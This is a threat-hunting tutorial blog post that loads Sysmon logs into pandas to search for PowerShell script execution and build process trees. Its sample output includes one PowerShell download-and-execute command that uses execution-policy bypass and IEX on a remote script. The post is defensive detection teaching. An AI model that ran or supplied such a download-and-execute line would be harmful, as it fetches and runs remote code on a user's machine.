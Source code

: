 ```yaml
---
title: "Threat Hunting with sysmon 101 part 4: Loading events in pandas dataframe"
date: 2024-03-25 22:40:00 +0200
categories: Threat_hunting
description: Threat hunting with sysmon 
tags: Threat hunting sysmon Threat-hunting windows logs ELK
published: false
---
```


In the past article, we used powershell scripting to filter the events and perform basic querying, in this article we will load sysmon logs into python, and explore some powerful queries that we can apply to our data to gain better understanding of it.

# Exporting events to xml
The first step is to export sysmon events from the event log in xml format. This can be done either using get-winevent, or wevtutil. But, it seems that wevtutil is much faster .

This command uses **wevtutil.exe** to dump the logs to **exported-eventlog.xml** file on the desktop in XML format.
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:events > ~/Desktop/exported-eventlog.xml
```
Or, this slower version that uses **Get-WinEvent** powershell command
```
 Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'} |Export-Clixml -Path ~/Desktop/exported-eventlog.xml
```

Make sure to run these commands as admin in order to export the logs properly.

# Loading Events in python
Parsing XML files in python is easy, we just need to know which nodes/attributes are useful for us, this code snipper will load the xml file, iterate over each event, extract some data from each event, and then store load every thing in pandas dataframe.

```
import tabulate
from bs4 import BeautifulSoup
import pandas as pd

with open(r'exported-eventlog.xml', 'r' , encoding='utf16') as f:
    data = f.read()

parsed = BeautifulSoup(data, "xml")

events_list  = []
for event in parsed.find_all('Event'):
    evt_dict ={}
    evt_dict['EventID'] = event.find('EventID').text
    evt_dict['Computer'] = event.find('Computer').text
    evt_dict['EventRecordID'] = event.find('EventRecordID').text
    for j in event.find_all("Data"):
        evt_dict[j['Name']] = j.text
    events_list.append(evt_dict)

df = pd.DataFrame(events_list)
print('Loaded %d events' % len(df))
```

# Use case: Search for execute .ps1 files

```
filtered_df = df[(df['CommandLine'].notna()) & (df['CommandLine'].str.match('.*PoWeRSHeLl.*pS1.*',case=0))][['EventID','ProcessId','Image','CommandLine']]
print(tabulate.tabulate(filtered_df ,headers= filtered_df.columns))
```

```
        EventID    ProcessId  CommandLine
----  ---------  -----------  ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 115          1         3900  powershell.exe  -noexit -ep bypass -command IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/11x256/11x256.github.io/test/assets/exercise/th3/1.ps1'))

9082          1         7464  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noexit -command "try { . \"c:\Users\abdo-pc\AppData\Local\Programs\Microsoft VS Code\resources\app\out\vs\workbench\contrib\terminal\browser\media\shellIntegration.ps1\" } catch {}"

```


# Use case: Create Process Tree
Another thing we can try now is to create a process tree to show the relationships between the processes.
In order to create a process tree, we will need 2 things:
- identify root nodes, these nodes (processes) don't have a parent, this can be either due to missing data, or because thats the first process created by the OS.
- Create list of children of each node: this will allow us to create the parent-child relationship


## The firs step: Prepare the data
In this step will check what nodes are missing from our data ,and we will select a subset of filed to use in the process tree
```
# List to store all the nodes
nodes = []
# Dictionary to identify missing nodes
nodes_guids = {}
for i in df[df['EventID'] == "1" ].itertuples():
    node = {}
    node['Name'] = i.Image.split('\\')[-1]
    node['Cmd'] = i.CommandLine
    node['ProcessGuid'] = i.ProcessGuid
    node['ParentProcessGuid'] = i.ParentProcessGuid
    node['ProcessId'] = i.ProcessId

    nodes.append(node)
    nodes_guids[i.ProcessGuid] = 1 # set the node in the dict as available
```



## The second step: Create the parent-child relationship

```
roots = []
childs = {}

for i in nodes:
    if nodes_guids.get(i['ParentProcessGuid'] , 0 ) == 0:
        roots.append(i)
    else:
        if i['ParentProcessGuid']  not in childs:
            childs[i['ParentProcessGuid'] ] = []
        childs[i['ParentProcessGuid'] ].append(i)


```

This code will create a list of roots, nodes without a parent in our set of data. And it will create a list of childs for each parent

## The third step: Print the tree
Now, we have every thing ready, we just need to print the data using recursion. Recursion is used in order to print the data in the required order, we need to print the root, then the first child, then the first child of the first child, and so on...
```
root
    child 1
        child 1 1
            child 1 1 1
        child 1 2
        child 1 3
            child 1 3 1
            child 1 3 2
    child 2
    child 3 
    ... 
```
Using a for loop to print the data , we will get in weird order for a process tree, which will look like this:
```
root
    child 1
    child 2
    child 3
    child 4
    child 1 1
    child 1 2
    child 3 1
    .... and so on
```

```
def print_node(node, indent =0):
    print(' '*indent , node['Name'] , node['ProcessId'])
    for j in childs.get(node['ProcessGuid'] , []):
        print_node(j, indent=indent+4)
for i in roots:
    print_node(i)

```

Which would print something like this, based on what you choose to print 

```
 mscorsvw.exe 1532
 mscorsvw.exe 5964
 chrome.exe 9320
     chrome.exe 6456
     chrome.exe 7568
     chrome.exe 940
     chrome.exe 10788
     chrome.exe 7448
     chrome.exe 3400
     chrome.exe 7060
     chrome.exe 5292
     chrome.exe 11128
     chrome.exe 4340
     chrome.exe 8556
     chrome.exe 8816
     chrome.exe 2052
     chrome.exe 5896
     chrome.exe 7016
     cmd.exe 5292
         conhost.exe 8224
     chrome.exe 768
     chrome.exe 9288
     chrome.exe 9716
     cmd.exe 4264
         conhost.exe 6736
    ....
```


